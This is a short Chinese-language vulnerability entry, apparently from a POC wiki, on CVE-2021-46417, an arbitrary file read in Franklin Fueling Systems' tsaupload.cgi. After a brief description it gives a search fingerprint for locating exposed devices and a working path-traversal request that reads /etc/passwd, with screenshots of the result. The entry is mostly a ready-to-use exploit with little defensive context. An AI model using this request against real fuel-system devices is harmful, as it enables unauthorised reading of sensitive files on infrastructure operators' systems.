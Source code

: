 # Franklin Fueling Systems tsaupload.cgi 任意文件读取漏洞 CVE-2021-46417

## 漏洞描述

Franklin Fueling Systems tsaupload.cgi 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器敏感文件

## 漏洞影响

<a-checkbox checked>Franklin Fueling Systems</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"Franklin Fueling Systems"</a-checkbox></br>

## 漏洞复现

主页面

![img](/assets/PeiQi-Wiki/img/1657420562693-75382d60-8299-4a3e-89b0-22a22a913500.png)

验证POC

```php
/cgi-bin/tsaupload.cgi?file_name=../../../../../../etc/passwd&password=
```

![img](/assets/PeiQi-Wiki/img/1657420647065-c03ec27d-901d-4bec-9949-b269306f4252-20220710103840550.png)